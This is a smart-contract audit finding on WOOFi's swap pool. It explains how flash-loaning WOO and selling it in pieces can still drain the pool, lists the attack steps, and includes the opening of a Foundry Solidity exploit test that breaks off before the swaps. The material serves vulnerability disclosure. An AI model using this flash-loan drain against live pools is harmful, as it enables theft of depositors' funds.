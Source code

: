 # Issue H-1: Pool can be drained 

Source: https://github.com/sherlock-audit/2024-03-woofi-swap-judging/issues/68 

## Found by 
mstpr-brainbot
## Summary
The pool can be drained just as it was during the incident that occurred previously.
## Vulnerability Detail
`maxNotionalSwap` and `maxGamma` and the new math formula do not prevent the pool being drainable. Same attack vector that happent previously is still applicable:
https://woo.org/blog/en/woofi-spmm-exploit-post-mortem
https://rekt.news/woo-rekt/

Flashloan 99989999999999999990000 (99_990) WOO
Sell WOO partially (in 10 pieces) assuming maxGamma | maxNotionalSwap doesnt allow us to do it in one go
Sell 20 USDC and get 199779801821639475527975 (199_779) WOO
Repay flashloan, pocket the rest of the 100K WOO.

**Coded PoC:**
```solidity
function test_Exploit() public {
        // Flashloan 99989999999999999990000 (99_990) WOO
        // Sell WOO partially (in 10 pieces) assuming maxGamma | maxNotionalSwap doesnt allow us to do it in one go
        // Sell 20 USDC and get 199779801821639475527975 (199_779) WOO
        // Repay flashloan, pocket the rest of the 100K WOO. 

        // Reference values: 
        // s = 0.1, p = 1, c = 0.0001 

        // bootstrap the pool 
        uint usdcAmount = 100_0000_0_0000000000000_000;
        deal(USDC, ADMIN, usdcAmount);
        deal(WOO, ADMIN, usdcAmount);
        deal(WETH, ADMIN, usdcAmount);
        vm.startPrank(ADMIN);
        IERC20(USDC).approve(address(pool), type(uint256).max);
        IERC20(WOO).approve(address(pool), type(uint256).max);
        IERC20(WETH).approve(address(pool), type(uint256).max);
        pool.depositAll(USDC);
        pool.depositAll(WOO);
        pool.depositAll(WETH);
        vm.stopPrank();
        ////////////////////////

        // fund mr TAPIR
        vm.startPrank(TAPIR);
        uint wooAmountForTapir = 9999 * 1e18 - 1000;
        deal(WOO, TAPIR, wooAmountForTapir * 10);
        IERC20(USDC).approve(address(router), type(uint256).max);
        IERC20(WOO).approve(address(router), type(uint256).max);
        IERC20(WETH).approve(address(router), type(uint256).max);
        vm.stopPrank();
        ////////////////////////
        
        // get the price before the swaps
        (uint128 price, ) = oracle.woPrice(WOO);
        console.log("Price before the swap", price);

```